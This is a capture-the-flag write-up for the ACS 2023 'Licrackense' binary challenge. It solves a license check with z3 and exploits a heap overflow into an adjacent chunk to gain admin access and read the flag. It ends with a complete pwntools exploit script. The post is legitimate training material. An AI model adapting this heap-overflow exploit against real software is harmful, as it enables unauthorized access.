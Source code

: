 ```yaml
---
title : "Licrackense [Binary]"
categories: ACS2023
---
```


Light RE with z3 + heap overflow. From ACS 2023 finals.

# Challenge Description

[prob]({{ site.url }}/files/acs2023/licrackense/prob){: .btn .btn--info}

# Solution

This program is splitted into two parts, the first part is a license key check, which consists of pretty straightforward operations that can be solved using z3.

{% include image.html url="/assets/images/acs2023/licrackense_license_check.png" description="" %}

After passing this check, we are able to execute some commands, but we need to get admin access first. We see that there is a check using `FUN_00101736` that checks the second pointer in `param_1` which we have no input to.

{% include image.html url="/assets/images/acs2023/licrackense_command_handler.png" description="" %}

However, notice that `read(0, *param_1, 0x256)` writes into the first pointer of `param_1`, which is initialized to size of `0x100` only in this function:

{% include image.html url="/assets/images/acs2023/licrackense_pointer_init.png" description="" %}

The second pointer's chunk is right after the first chunk. So, we can overflow into the second chunk and write the required values to get admin permission. To illustrate this:

```
Memory map of the heap

               +-------------------------+
               | chunk header    8 bytes | \
param_1[0] --> +-------------------------+
               | data                    |   chunk 0
               +-------------------------+
               | chunk header    8 bytes | /
               +-------------------------+
               | chunk header    8 bytes | \
param_1[1] --> +-------------------------+
               | data                    |   chunk 1
               +-------------------------+
               | chunk header    8 bytes | /
               +-------------------------+
```

Note that, unlike buffer overflows on the stack, we need to account for the heap chunk header when calculating how much padding to use. See [this article](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/) for a deep dive into these stuffs. We'll have to add an extra 16 bytes to our payload.


{% include image.html url="/assets/images/acs2023/licrackense_admin_check.png" description="Grab the bytes from here" %}

Then, just make sure to put in `/secret/document` at the start of the payload to run the command and `cat` the flag.

# Final Script
```python
from pwn import *
from z3 import *

DEBUG = True

arr = [ 0x35, 0x78, 0xda, 0x89, 0xad, 0x90, 0x34, 0x75, 0x4f, 0x67, 0xfd, 0x89, 0x79, 0xf3, 0x43,
        0x28, 0x9d, 0x67, 0xdf, 0x54, 0xf7, 0x82, 0x11, 0x20, 0xdf, 0x89, 0x34, 0x38, 0x9d, 0x67,
        0x47, 0x89, 0xd8, 0x49,    8, 0xc6, 0xad, 0xf1, 0xc4, 0x10, 0x59,  0xf, 0x73, 0x89, 0xf9,
        0x21, 0xff, 0x57, 0x99, 0x3c, 0x3b, 0xb3, 0x6c, 0xef, 0x96, 0x41, 0x24,  199, 0xfd, 0x44,
        0x44, 0xa5, 0x43, 0x6b, 0x81, 0xc5 ]

s = Solver()

flag = [BitVec(str(i), 8) for i in range(0x21)]
key = arr[:len(flag)]
target = arr[len(flag):]

assert(len(key) <= len(target))

tmp = []
for i in range(len(flag)):
    tmp.append(flag[i])

for i in range(len(flag)):
    tmp[i] = RotateLeft(tmp[i], 2)

for i in range(len(flag)):
    tmp[i] = RotateRight(tmp[i], 4)

for i in range(len(flag) - 1):
    tmp[i] ^= tmp[i+1]

for i in range(len(flag)):
    tmp[i] = RotateRight(tmp[i], 4)

for i in range(len(flag)):
    tmp[i] ^= key[i]

for i in range(len(flag)):
    s.add(tmp[i] == target[i])

assert(s.check() == sat)
key = ""
for ch in flag:
    key += chr(s.model()[ch].as_long())

print("Key:", key)

cmd = [0 for _ in range(0x10)]
cmd[2] = ord('\x0e')
cmd[8] = ord('x')
cmd[10] = ord('\t')
cmd[0xf] = ord('x') 
cmd[4] = ord('v')
cmd[0] = -0x29 
cmd[0xb] = -0x79 
cmd[7] = ord('n')
cmd[5] = ord('T') 
cmd[9] = -0x70 
cmd[6] = ord('5')
cmd[0xe] = ord('V')
cmd[3] = -0x68 
cmd[0xd] = ord('T')
cmd[0xc] = -0x4a
cmd[1] = -0x77
cmd = list(map(lambda x : (x & 0xff).to_bytes(1, 'little'), cmd))
cmd = b"".join(cmd)

payload = b"/secret/document\x00"
payload += b"A" * (0x100 - len(payload)) + b"B" * 0x10 + cmd

conn = process("./prob") if DEBUG else remote("192.168.0.52", 10044)
conn.recvuntil(b": ")

conn.sendline(key.encode())

conn.recvuntil(b"> ")
conn.sendline(payload)

print(conn.recvall())
```

